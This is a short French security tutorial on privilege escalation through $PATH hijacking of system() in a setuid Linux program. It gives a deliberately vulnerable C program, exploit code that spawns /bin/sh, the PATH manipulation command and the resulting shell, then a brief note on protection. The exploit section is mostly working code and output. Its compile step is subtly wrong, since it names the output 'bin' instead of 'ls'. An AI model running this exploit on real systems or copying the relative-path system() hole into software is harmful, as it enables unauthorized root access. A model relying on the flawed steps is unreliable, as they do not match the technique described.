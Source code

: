 # System()

## I. La faille
La fonction system() de Linux permet d'éxécuter une commande passée en argument. Pour savoir où se trouve le fichier à lancer lorsque le chemin absolue n'est pas précisé, system() utilise la variable d'environnement $PATH. Il est donc possible d'agir sur cette variable pour tromper system().

## II. Pré-requis
* Un programme suid
* L'argument de system() est un chemin relatif

    __aas@ubuntu:~$ cat vuln.c__
    void main()
    {
      system("ls -l");
    }

Le comportement normal de ce programme est le suivant. Notons le suid activé.

    __aas@ubuntu:~$ ./vuln__ 
    total 48
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Desktop
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Documents
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Downloads
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Music
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Pictures
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Public
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Templates
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Videos
    -rws--x--x 1 root root 8600 sept. 16 10:07 vuln
    -rw-rw-r-- 1 aas  aas    34 sept. 16 10:07 vuln.c 

## III. Exploitation de la faille
### Création d'un faux programme 'ls'
    __aas@ubuntu:~$ cat exploit.c__ 
    void main()
    {
      char *shell[] = {"/bin/sh",NULL};
      execve(shell[0],shell,NULL);
    }
    aas@ubuntu:~$ gcc exploit.c -o bin

### Modification de $PATH
    ```__aas@ubuntu:~$ PATH=.:$PATH__```

### Execution
    __aas@ubuntu:~$ ./vuln__ 
    $

## IV. Protection
On utilise les fonctions de type exec à la place de System. Mettre le chemin absolue avec system est dangereux malgré tout puisqu'il est possible d'utiliser la faille IFS sur certains "anciens".

